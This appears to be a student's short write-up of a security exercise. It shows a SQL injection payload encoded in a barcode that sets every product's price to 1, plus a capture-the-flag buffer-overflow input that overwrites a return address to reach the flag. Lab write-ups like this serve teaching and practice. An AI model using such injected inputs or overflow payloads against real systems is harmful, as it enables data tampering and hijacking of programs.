 # Øving 12

## SQL

`barcode -b "1; update products set price = 1"`

![barcode](https://barcode.tec-it.com/barcode.ashx?data=1%3B+update+products+set+price%3D1&code=&multiplebarcodes=false&translate-esc=false&unit=Fit&dpi=96&imagetype=Gif&rotation=0&color=%23000000&bgcolor=%23ffffff&codepage=&qunit=Mm&quiet=0)

## CTF

Looking at the assemebly and the decompiled code we can see that there is a buffer overflow vulnurability.

By sending 

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%ee%06%40%00%00%00%00%00
```

We get our flag.

For more detailed walkthrough see `CTF.md`
